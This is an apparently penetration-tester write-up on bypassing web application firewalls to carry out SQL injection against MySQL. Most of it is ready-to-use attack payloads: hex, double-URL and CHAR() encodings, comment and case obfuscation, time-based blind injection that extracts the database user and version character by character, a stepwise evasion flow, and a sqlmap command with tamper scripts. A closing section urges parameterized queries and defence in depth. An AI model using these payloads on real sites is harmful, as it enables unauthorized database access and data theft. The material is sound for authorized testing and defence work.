 # **SQLi WAF Evasion: Advanced Techniques for Bypassing Enterprise Security**

**Web Application Firewalls (WAFs)** are widely deployed in enterprise networks to detect and block common web-based attacks such as SQL injection (SQLi). However, many WAFs still rely heavily on rule-based detection, which makes them vulnerable to **evasion through obfuscation, encoding tricks, and query manipulation**.

This writeup focuses on **real-world SQLi WAF evasion**, using:

* Alternative encoding schemes
* MySQL comment-based obfuscation
* Time-based blind SQL injection (especially in black-box testing)

We’re not dealing with lab simulations. These are **field-tested** techniques used during pentests and bug bounty assessments against hardened enterprise targets.

---

## 1. **Alternative Encoding Schemes**

WAFs commonly fail at **input normalization**, giving attackers room to deliver payloads in alternative representations that achieve the same logic while bypassing detection.

### 1.1 Hexadecimal Encoding

You can replace string literals with their hex representations to bypass signature-based filters.

**Standard:**

```sql
SELECT * FROM users WHERE username = 'admin';
```

**Hex:**

```sql
SELECT * FROM users WHERE username = 0x61646d696e;
```

**Bypassing Filters Example:**

```sql
admin' OR 1=1--
```

→ becomes:

```sql
0x61646d696e' OR 1=1--
```

This bypass works well when WAFs blacklist `'admin'` or common usernames.

---

### 1.2 URL Encoding & Double Encoding

WAFs might decode inputs once before pattern matching, but **double-encoding** can fool naive parsers.

**Original Payload:**

```
' OR 1=1--
```

**URL Encoded:**

```
%27%20OR%201%3D1--+
```

**Double Encoded (Bypass):**

```
%2527%2520OR%25201%253D1--+
```

If the WAF doesn't recursively decode, this will pass while still injecting SQL.

---

### 1.3 CHAR() Obfuscation

Another common bypass is building strings from ASCII characters.

```sql
SELECT * FROM users WHERE username = CHAR(97,100,109,105,110);
```

This is interpreted as `'admin'` but avoids directly writing the word. Combine with functions like `CONCAT()`, `CONCAT_WS()`, or even dynamic `PREPARE` statements for more complex evasion.

---

## 2. **MySQL Comment Obfuscation**

MySQL supports multiple types of comments which can be injected into queries to split keywords or confuse pattern matchers.

### 2.1 Inline Comments (`/**/`)

These can break keywords and bypass simple keyword match filters.

**Example:**

```sql
SELECT/**/1/**/FROM/**/users/**/WHERE/**/1=1;
```

**More Aggressive:**

```sql
sElEcT/**/usernAme/**/FrOm/**/users/**/wHeRe/**/1/**/=/**/1
```

Some WAFs are case-sensitive or fail to parse queries once split into non-standard casing + spacing.

---

### 2.2 MySQL Conditional Comments (`/*! */`)

These execute conditionally based on the server version — but are often ignored by WAFs that aren't aware of this syntax.

**Example:**

```sql
/*!50000SELECT*/ user FROM mysql.user;
```

Here, the query runs only if the MySQL version is 5.0 or higher (which is almost always true). WAFs that don’t parse MySQL version-specific logic won’t detect the SELECT statement.

---

### 2.3 Nested or Misused Comment Placement

Use comments to confuse syntax analyzers:

```sql
SELECT/**/user/**/FROM/**/users/**/WHERE/**/id/**/LIKE/**/'%ad%'
```

---

## 3. **Time-Based Blind SQLi**

WAFs might block reflected and error-based SQLi, but **time-based SQL injection** can fly under the radar when payloads are embedded inside functions.

This method leverages SQL’s ability to delay responses (`SLEEP`, `BENCHMARK`) to infer database behavior even when output is not visible.

### 3.1 Injection Detection via Delay

Start with a basic delay payload:

```sql
' OR IF(1=1, SLEEP(5), 0)-- -
```

If the page takes 5+ seconds to respond, injection is confirmed.

**WAF Evasion Variants:**

```sql
%27/**/OR/**/IF(1=1,SLEEP(5),0)--+
```

```sql
' OR IF(1=1, benchmark(100000000,MD5('A')), 0)-- -
```

---

### 3.2 Extracting Data Bit-by-Bit

You can extract data by checking ASCII values character-by-character.

```sql
' OR IF(ASCII(SUBSTRING((SELECT user()),1,1)) > 80, SLEEP(5), 0)-- -
```

If the page delays, character 1’s ASCII is > 80. Binary search will extract the full value.

### 3.3 Obfuscation within Function Calls

Even functions like `CONCAT()`, `CASE`, or nested `IF()` can be abused:

```sql
' OR (SELECT CASE WHEN (SUBSTRING(@@version,1,1)='5') THEN SLEEP(5) ELSE 0 END)-- -
```

---

## 4. **Real-World Evasion Flow (Summary)**

A good bypass strategy for hardened environments usually involves:

1. **Probing with minimal payloads**
   Start with:

   ```sql
   ' AND 1=1-- -
   ' AND 1=2-- -
   ```

2. **Applying comment obfuscation + casing**

   ```sql
   ' aNd/**/1/**/=/**/1-- -
   ```

3. **Switching to time-based payloads when output is blocked**

   ```sql
   ' OR IF(1=1,SLEEP(5),0)-- -
   ```

4. **Encoding the payload**

   * URL encode
   * Hex encode
   * CHAR() encode

5. **Using MySQL-specific constructs to avoid generic detection**

   ```sql
   /*!50000UNION*/ SELECT NULL,NULL,NULL-- -
   ```

---

## 5. **Testing and Tools**

For automation and testing, use tools like:

* `sqlmap` with tamper scripts:

  ```
  sqlmap -u "http://target.com/page.php?id=1" --tamper=space2comment,charunicodeencode --technique=T --dbs
  ```

* Burp Suite Intruder + Turbo Intruder for custom payloads

* Custom Python scripts using `requests` or `httpx`

---

## Final Notes

**Enterprise WAFs aren't perfect**. Many can be bypassed by using techniques that fall just outside their rule set. Most are not context-aware and fail to account for encoded or non-standard syntax variants.

That said, evasion doesn’t mean protection is worthless. It just means:

* Relying on WAF alone is negligent.
* App-layer sanitization is non-negotiable.
* Defense in depth must include parameterized queries, input validation, and proper error handling.
